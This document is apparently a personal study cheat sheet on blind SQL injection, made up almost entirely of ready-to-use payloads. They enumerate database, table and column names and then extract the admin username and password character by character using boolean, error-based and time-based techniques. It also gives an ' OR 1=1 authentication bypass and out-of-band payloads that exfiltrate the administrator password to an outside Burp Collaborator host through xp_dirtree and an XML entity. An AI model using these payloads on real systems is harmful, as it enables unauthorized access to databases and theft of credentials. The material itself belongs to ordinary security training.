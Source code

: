 ```yaml
---
title: BLIND INJECTION
updated: 2023-11-11 10:14:49Z
created: 2023-11-05 05:07:00Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


## Boolean Based SQL Injection

`select * from users where username = '%username%' LIMIT 1;`

Try to find a query that returns a true statement (like http://target/product?id=1)  
then send confirm you can send it a FALSE statement (eg, id=hacked), then APPEND to this to try and make the database confirm TRUE things

Try the cookie:

Cookie: TrackingId=YZ4gxazL0b9VReCc  
`Cookie: TrackingId=YZ4gxazL0b9VReCc'`  
`Cookie: TrackingId=YZ4gxazL0b9VReCc''`

&nbsp;

1.  Find the number of columns:  
    `id=hacked' UNION SELECT 1;--`  
    `id=hacked' UNION SELECT 1,2;--`  
    `id=hacked' UNION SELECT 1,2,3;--`
    
2.  Enumerate the databases to find **databasename**  
    `id=hacked' UNION SELECT 1,2,3 where database() like '%';--` (should return True)  
    `id=hacked' UNION SELECT 1,2,3 where database() like 'a%';--`  
    `id=hacked' UNION SELECT 1,2,3 where database() like 'b%';--`  
    `id=hacked' UNION SELECT 1,2,3 where database() like 'c%';--`  
    etc
    
3.  Enumerate Tables to find **tablename**  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'a%';--`  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'b%';--`  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'c%';--`  
    etc
    
4.  Enumerate Columns to find **columnname**  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='databasename' and TABLE_NAME='tablename' and COLUMN_NAME like 'a%';--`  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='databasename' and TABLE_NAME='tablename' and COLUMN_NAME like 'b%';--`  
    `id=hacked' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='databasename' and TABLE_NAME='tablename' and COLUMN_NAME like 'c%';--`  
    etc
    

Once you've found a column (like "admin"), then exclude for further scans  
`id=hacked' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='databasename' and TABLE_NAME='tablename' and COLUMN_NAME like 'a%' and COLUMN_NAME !='users';--`

5.  Enumerate data (username) from the Column (users)  
    `id=hacked' UNION SELECT 1,2,3 from users where username like 'a%';--`  
    `id=hacked' UNION SELECT 1,2,3 from users where username like 'b%';--`  
    `id=hacked' UNION SELECT 1,2,3 from users where username like 'c%';--`  
    `id=hacked' UNION SELECT 1,2,3 from users where username like 'c%' and username !='admin';--`  
    etc
    
6.  Enumerate data (password) from the Column(user) where the users is admin  
    `id=hacked' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%';--`  
    `id=hacked' UNION SELECT 1,2,3 from users where username='admin' and password like 'b%';--`  
    `id=hacked' UNION SELECT 1,2,3 from users where username='admin' and password like 'c%';--`  
    etc
    




## Authentication Bypass

`' OR 1=1;--`

* * *

## BLIND SQL attacks using conditional ERRORS

`' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'--`  
**CASE** expression evaluates to 'a', which does not cause any error

`' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'--`  
**CASE** evaluates to 1/0, which causes a divide-by-zero error.

These inputs use the **CASE** keyword to test a condition and return a different expression depending on whether the expression is **True**:

Using this technique, you can retrieve data by testing one character at a time:  
`' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'--`

* * *

## Time Based SQL Injection

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement

The techniques for triggering a time delay are specific to the type of database being used


`%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

1.  Find the number of columns:  
    `id=hacked' UNION SELECT SLEEP(5);--`

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

`id=hacked' UNION SELECT SLEEP(5),2;--`  
`id=hacked' UNION SELECT SLEEP(5),2,3;--`  
etc

2.  Enumerate the databases to find **databasename**  
    `id=hacked' UNION SELECT SLEEP(5),2,3 where database() like '%';--` (should return True)  
    `id=hacked' UNION SELECT SLEEP(5),2,3 where database() like 'a%';--`  
    `id=hacked' UNION SELECT SLEEP(5),2,3 where database() like 'b%';--`  
    `id=hacked' UNION SELECT SLEEP(5),2,3 where database() like 'c%';--`  
    etc
    
3.  Enumerate Tables to find **tablename**  
    `id=hacked' UNION SELECT SLEEP(5),2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'a%';--`  
    `id=hacked' UNION SELECT SLEEP(5),2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'b%';--`  
    `id=hacked' UNION SELECT SLEEP(5),2,3 FROM information_schema.tables WHERE table_schema = 'databasename' and table_name like 'c%';--`  
    etc
    
4.  Enumerate Columns to find **columnname**  
    `id=hacked' UNION SELECT SLEEP(5),2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='databasename' and TABLE_NAME='tablename' and COLUMN_NAME like 'a%';--`
    
## Time Based Conditional

SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
	
* * *

## Out-Of-Band SQL Injection

**CHANNEL 1** > Launch the Attack (eg Web Request)  
**CHANNEL 2** > To Receive the Results (eg monitoring HTTP/DNS requests)

Out-of-Band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query

Use the out-of-band channel to exfiltrate data from the vulnerable application. For example: 
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`